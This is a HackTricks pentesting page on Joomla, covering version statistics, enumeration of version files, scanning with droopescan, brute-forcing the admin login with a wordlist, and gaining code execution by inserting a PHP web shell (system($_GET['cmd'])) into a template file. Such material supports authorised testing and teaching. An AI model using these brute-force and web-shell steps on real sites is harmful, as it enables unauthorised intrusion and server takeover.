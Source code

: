 # Joomla

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

### Joomla Statistics

Joomla collects some anonymous [usage statistics](https://developer.joomla.org/about/stats.html) such as the breakdown of Joomla, PHP and database versions and server operating systems in use on Joomla installations. This data can be queried via their public [API](https://developer.joomla.org/about/stats/api.html).

```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
    "data": {
        "cms_version": {
            "3.0": 0,
            "3.1": 0,
            "3.10": 6.33,
            "3.2": 0.01,
            "3.3": 0.02,
            "3.4": 0.05,
            "3.5": 12.24,
            "3.6": 22.85,
            "3.7": 7.99,
            "3.8": 17.72,
            "3.9": 27.24,
            "4.0": 3.21,
            "4.1": 1.53,
            "4.2": 0.82,
            "4.3": 0,
            "5.0": 0
        },
        "total": 2951032
    }
}
```

## Enumeration

### Discovery/Footprinting

* Check the **meta**

```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```

* robots.txt

```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```

* README.txt

```
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```

### Version

* In **/administrator/manifests/files/joomla.xml **_**** you can see the version._
* In **/language/en-GB/en-GB.xml** you can get the version of Joomla.
* In **plugins/system/cache/cache.xml** you can see an approximate version.

### Automatic

```bash
droopescan scan joomla --url http://joomla-site.local/
```

In[ **80,443 - Pentesting Web Methodology is a section about CMS scanners**](./#cms-scanners) that can scan Joomla.

### Brute-Force

You can use this [script](https://github.com/ajnik/joomla-bruteforce) to attempt to brute force the login.

```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 
admin:admin
```

## RCE

If you managed to get **admin credentials** you can **RCE inside of it** by adding a snippet of **PHP code** to gain **RCE**. We can do this by **customizing** a **template**.

1. **Click** on **`Templates`** on the bottom left under `Configuration` to pull up the templates menu.
2. **Click** on a **template** name. Let's choose **`protostar`** under the `Template` column header. This will bring us to the **`Templates: Customise`** page.
3. Finally, you can click on a page to pull up the **page source**. Let's choose the **`error.php`** page. We'll add a **PHP one-liner to gain code execution** as follows:
   1. **`system($_GET['cmd']);`**
4. **Save & Close**
5. `curl -s http://joomla-site.local/templates/protostar/error.php/error.php?cmd=id`

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
